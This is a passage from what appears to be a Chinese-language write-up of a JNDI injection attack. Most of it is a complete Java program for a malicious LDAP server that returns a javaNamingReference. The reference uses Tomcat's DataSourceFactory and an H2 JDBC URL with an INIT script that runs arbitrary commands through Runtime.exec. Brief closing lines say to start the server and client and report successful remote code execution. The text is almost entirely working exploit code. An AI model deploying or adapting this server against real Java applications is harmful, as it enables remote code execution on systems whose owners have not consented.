import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LADP {
    public static void main(String[] args) {
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    1111,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor());
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("[LDAP] Listening on 0.0.0.0:1111");
            ds.startListening();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static class OperationInterceptor extends InMemoryOperationInterceptor {

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult searchResult) {
            String base = searchResult.getRequest().getBaseDN();
            Entry e = new Entry(base);
            e.addAttribute("objectClass","javaNamingReference");
//
            e.addAttribute("javaClassName", "javax.sql.DataSource");
            e.addAttribute("javaFactory","org.apache.tomcat.jdbc.pool.DataSourceFactory");
            String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\;return "1"\;}'\;CALL EXEC ('calc')";
            e.addAttribute("javaReferenceAddress",new String[]{"/0/url/"+JDBC_URL,"/1/driverClassName/org.h2.Driver","/2/username/Squirt1e","/3/password/Squirt1e","/4/initialSize/1"});
            e.addAttribute("objectClass","javaNamingReference");

            try {
                searchResult.sendSearchEntry(e);
                searchResult.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            } catch (Exception ex) {
                ex.printStackTrace();
            }
        }
    }
}
```

启动服务端

然后运行客户端



成功 rce
